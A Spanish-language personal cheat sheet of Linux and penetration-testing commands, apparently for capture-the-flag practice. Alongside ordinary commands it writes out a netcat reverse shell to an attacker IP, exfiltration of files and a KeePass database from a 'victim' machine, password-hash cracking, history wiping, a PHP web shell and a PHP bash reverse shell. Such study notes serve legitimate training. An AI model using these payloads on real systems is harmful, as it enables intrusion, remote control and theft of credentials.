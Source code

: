 # Comandos Linux


- **sudo** -> Te permite ejecutar un comando o funcion en la consola.
- **su (switch user)** -> Cambiar de usuario

Modo Vi en la consola 
**Esc** - Entras al modo Vi y puedes tener una mayor agilidad al momento de borrar comandos o moverte

- **/etc/hosts** Ruta para colocar dominios e IP's
- **/etc/passwd** Ruta de las cuentas de usuario
- **/etc/shadow** Ruta de hashes de passwrod de usuario estan almacenadas ahi
- **/etc/group** Ruta de configuracion del archivo de grupos
- **/etc/shells** Podemos ver las diferentes shells que hay 
- **/etc/ssh/sshd_config** Podemos ver las configuraciones de ssh y ver si el usuario root se puede conectar 

- /usr/share/Seclists/Web-Shells/FuzzDB/**nc.exe**    Netcat nos ayuda a conseguir una ReverShell

- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash y miramos con ls -l (l=ele)
- Comando -> **!$** Referencias el ultimo argumento que hayamos puesto en la consola 
- Comando -> **echo ‘’ > ~/.zsh_history** Para borrar el historial en la zshrc
- Comando -> **echo $PATH** Miramos el path de la consola Linux

- Comando -> **sudo openvpn < FILENAME.ovpn>** – Te conectas a una vpn especifica
- Comando -> **extractPorts < FILENAME>** (Sirve para mostrarte los puertos mas relevantes y copiarlos en el cli para uso instantaneo )
- Comando -> **Settarget < IP - NAME>** -Agregamos en la esquina derecha la IP y el nombre de la maquina (Es una funcion antes configurada en la zsh)
- Comando -> **mkt** – Crea 3 directorios ya establecidos (content, exploit, namp) propios de la configuracion de parroy antes hecha
- Comando -> **mkdir -p /PATH/** Creamos una ruta con muchos directorios 

- Comando -> **arp-scan -I ens33 --localnet** Escaneamos toda la red (l=i mayuscula)
- Comando -> **macchanger -l | grep -i < NAME_VENDOR>** Podemos ver los vendors y asi determinar que es (l=ele)
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 
- Comando -> **whoami** Nos muestra el usuario que somos
- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **uname -a** Enumeras la version del Kernel
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux

- Comando -> **7z l file.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x file.gz** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

- Comando -> **cat < FileName> | wc -l** Te muestra el numero de palabras en fila que existen en ese archivo (l=ele)
- Comando -> **exiftool <Image.jpg>** Con esa herramienta podemos ver los metadatos de una imagen 
- Comando -> **steghide info <Image.jpg>** Para ver si la imagen tiene contenido oculto
-  Comando -> **steghide extract -sf <Image.jpg>** Para ver si la imagen tiene contenido oculto (sf=sourcefile)

- Comando -> **find / -name < WORD> 2>/dev/null** Para encontrar el directorio y los permisos denegados no nos los muestre
- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers

- Comando -> **ifconfig** o **ip a** – Miras la tarjeta de red (ens33 ‘IP Local’ , Tun0 ‘IP VPN’)

- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

- Comando -> **ping -c 1 < TARGET IP>** Mandamos un numero de ping especifico
- Comando -> **ping -c 1 < TARGET IP> -R** Verificar si tenemos conexion a una IP mandando numeros de ping especificos (R=traceroute, solo aplica en maquinas Linux, c=numero de ping) (ttl=64 Linux, ttl=128 Windows )

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

- Server Comando -> **nc.exe -e cmd < NUESTRA IP> < PUERTO>** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
- Comando -> **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

- Comando -> **nc < Nuestra IP> 443 < secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux, para mandar un archivo por netcat a nuestra direccion IP, esto desde la maquina victima
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443, maquinas Linux esto en la maquina de atacante para recibir el archivo y colocarlo con la misma extencion y el mismo nombre.

- Comando -> **smbserver.py < FOLDERNAME> $(pwd)** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
	- **\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443 (Se coloca en la maquina victima)
	- **copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 


- Comando -> **chown <USER:USER> -R < DIR PATH>** Le cambiamos el propietario a un directorio (R=Forma recursiva)
- Comando -> **chmod u+x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

- Encontrar un archivo con extencion **.kdbx** 
	Son archivos de datos creados por KeePass 'Password Safe', se refieren a la passwd de base de datos KeePass
	- **keepassxc FILE.kdbx** Nos permite abrir un archivo keepass con passwd, de lo contrario hacemos lo siguiente
	- **keepass2john FILE.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta, guardandolo en un archivo llamado hash 

- Comando -> **cewl -w < FileName.txt> <http://URL/>** Creas un diccionario mas 'personalizado' con las palabras de una webpage y te regresa un archivo de texto

- Comando -> **upx < FILE>** Podemos bajarle el peso al archivo 

- Comando -> **find / -name < NAME> 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE> --format=< HASHTYPE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256)
- Comando -> **fcrackzip -p /usr/share/wordlists/rockyou.txt -b -u FILE.zip -D** Nos crackea el hash y nos proporciona la passwd (p=init-passwd-string, b=bruteforce, D=dicctionary, u=use-unzip) 


----
Codigo PHP para que en la url nosotros podamos ejecutar diferentes comandos **/image.php?cmd=whoami**
Despues del primer ? va php esto en los tres de abajo
<?
	system($_REQUEST['cmd']);
?>

Comando de ReverShell en PHP
<?
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>
